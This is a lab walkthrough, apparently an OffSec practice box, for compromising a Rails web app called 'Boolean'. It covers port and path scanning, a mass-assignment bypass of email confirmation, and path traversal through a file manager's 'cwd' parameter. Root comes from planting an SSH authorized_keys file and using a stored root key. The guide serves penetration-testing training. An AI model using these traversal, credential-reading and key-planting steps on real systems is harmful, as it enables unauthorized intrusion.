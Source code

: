 ____

# Exploitation Guide for Boolean

## Enumeration

We begin the enumeration process with an `nmap` scan.

```
kali@kali:~$ sudo nmap -sV -sC 192.168.120.159
Starting Nmap 7.91 ( https://nmap.org ) at 2022-03-04 16:19 WIB
Nmap scan report for 192.168.120.159
Host is up (0.00077s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE VERSION
22/tcp   open   ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 6d:54:5e:b5:63:4c:22:40:36:26:be:ae:4d:85:dd:7a (RSA)
|   256 1e:fc:44:32:5b:65:eb:a9:4d:1f:e7:f6:6c:06:1a:13 (ECDSA)
|_  256 96:69:d0:1b:0b:af:96:9c:98:a0:29:98:53:d6:f4:af (ED25519)
80/tcp   open   http
| fingerprint-strings:
|   GetRequest, HTTPOptions:
|     HTTP/1.0 403 Forbidden
...
| http-title: Boolean
|_Requested resource was http://192.168.120.159/login
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.83 seconds
```

From the output we see ports `22` and `80` open on the target machine.

Starting with port `80` we see the following webpage.

<!--screenshot-->

We can proceed by enumerating all possible paths on port `80` using `dirb`.

```
kali@kali:~$ dirb http://192.168.120.159
...
URL_BASE: http://192.168.120.159/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.120.159/ ----
+ http://192.168.120.159/404 (CODE:200|SIZE:1722)
+ http://192.168.120.159/500 (CODE:200|SIZE:1635)
+ http://192.168.120.159/filemanager (CODE:302|SIZE:94)
+ http://192.168.120.159/login (CODE:200|SIZE:2394)
+ http://192.168.120.159/register (CODE:200|SIZE:2746)
...
```

Checking the **404** pages reveals the following:

```
kali@kali:~$ curl http://192.168.120.159/404
...
  .rails-default-error-page div.dialog {
...
  .rails-default-error-page div.dialog > div {
...
  .rails-default-error-page h1 {
...
  .rails-default-error-page div.dialog > p {
...

<body class="rails-default-error-page">
  <!-- This file lives in public/404.html -->
```

We see the framework uses [Rails](https://rubyonrails.org/), while the `login` and `register` paths return `200 OK` responses, the `filemanager` path stands out.

Judging by the name it is most likely a file upload feature which is almost always worth checking out.

```
kali@kali:~$ curl -sw '\n' http://192.168.120.159/filemanager
<html><body>You are being <a href="http://192.168.120.159/login">redirected</a>.</body></html>
```

Unfortunately it gets redirected to `/login` page, we will need to register a valid account.


Notice the footer text describes a type of file storage manager just like the `filemanager` path we discovered.


## Exploitation

This account confirmation page would appear after logging in.


Any attempt to go to any other pages like `/filemanager` will always gets redirected to this page.

As we're unable to authenticate as an offsec employee there is no way of receiving the confirmation link sent to the email.

There is an option to edit the email in case of typo, let attempt to use _Burp Suite_ to capture the request and responses.


We receive a `JSON` response with an `email` field reflected back on the confirmation page.

If we look closely, there is also a `confirmed` field with a boolean value `false`.

This field is most likely an indicator for the backend to tell if the account is already confirmed and to lock it out if it's not.

We've found out earlier what the web framework is used, a google search for _Rails common web vulnerability_ will lead us [here](https://guides.rubyonrails.org/v2.3.11/security.html) specifically the [Mass Assignment](https://guides.rubyonrails.org/v2.3.11/security.html#mass-assignment) vulnerability which looks promising.

The URL example is using `GET` while we deal with `POST` requests with `user[email]=yoman@offsec.com` parameters.

While the example was adding an `admin` attribute, we'll add `confirmed` instead with a boolean value `true` which will look like this `user[confirmed]=true` then send the request and see what happens.

We notice the `confirmed` value is now set to `true`, let's attempt to reload the confirmation page again.


After successfully bypassing the confirmation page, the file upload feature appears just like we suspect.

Let's create a test file and then try upload and download it.

```
kali@kali:~$ echo just a test file > test.txt
kali@kali:~$ ls -l test.txt
-rw-r--r-- 1 kali kali 17 Mar 20 13:39 test.txt
kali@kali:~$ cat test.txt
just a test file
```


Notice the changes in the URL bar when trying to download the file that gets uploaded, the `file=test.txt` parameter is interesting and usually the first sign to go and try a good ol' dot slash trick like `../../../etc/passwd` but unfortunately, this time it won't get us anywhere.

Now if we look closely, there is `cwd` parameter that does not have values, it kinda looks like the `pwd` command on _linux_ which used to print our (c)urrent (w)orking directory.

Let's use the same trick on this parameter and see what happens.


We've managed to traverse the path and go up to other directories using `cwd` parameters.

Since other directories are now browseable, we could potentially enumerate further by reading `passwd` or other sensitive files. However, there is a directory that stands out right away which is `.ssh/`, let's try to go into that directory.

Great, we're able to enter the directory which means the web service is likely run by the same user that owns this directory and has full permission.

There is a `keys/` directory which screams for private keys but let's do better than that, let's generate RSA private and public key, rename the public key to `authorized_keys` and then upload it.

```
kali@kali:~$ ssh-keygen -q -N '' -f sshkey
kali@kali:~$ ls -l sshkey*
-rw------- 1 kali kali 2590 Mar 20 19:33 sshkey
-rw-r--r-- 1 kali kali  563 Mar 20 19:33 sshkey.pub
kali@kali:~$ mv sshkey.pub authorized_keys
```

Awesome! the public key successfully uploaded, let's try logging in through SSH with the private key.

```
kali@kali:~$ ssh -i sshkey remi@192.168.120.159
The authenticity of host '192.168.120.159 (192.168.120.159)' can't be established.
...
Linux boolean 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64
...
remi@boolean:~$
```

# Privilege Escalation

After logging in as user `remi`, there is an alias that can be used to escalate to root easily.

```
remi@boolean:~$ alias
alias ls='ls --color=auto'
alias root='ssh -l root -i ~/.ssh/keys/root 127.0.0.1'
remi@boolean:~$ root
Received disconnect from 127.0.0.1 port 22:2: Too many authentication failures
Disconnected from 127.0.0.1 port 22
```

Unfortunately the attempt was failed due to **Too many authentication failures**, a google search for the error message will lead us [here](https://www.tecmint.com/fix-ssh-too-many-authentication-failures-error/).

Apparently this happened because of an SSH agent that would try to login with all identity keys that were added.

```
remi@boolean:~$ ls -l .ssh/keys/
total 16
-rw------- 1 remi remi 1823 Feb 23 20:40 id_rsa
-rw------- 1 remi remi 1823 Feb 23 20:40 id_rsa.1
-rw------- 1 remi remi 1823 Feb 23 20:40 id_rsa.2
-rw------- 1 remi remi 1823 Feb 23 20:40 root
```

Using the `IdentitiesOnly` option with a boolean value `true` or `yes` will force SSH to explicitly use the identity specified in the command line.

```
remi@boolean:~$ ssh -l root -i ~/.ssh/keys/root 127.0.0.1 -o IdentitiesOnly=true
Linux boolean 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64
...
root@boolean:~# whoami
root
```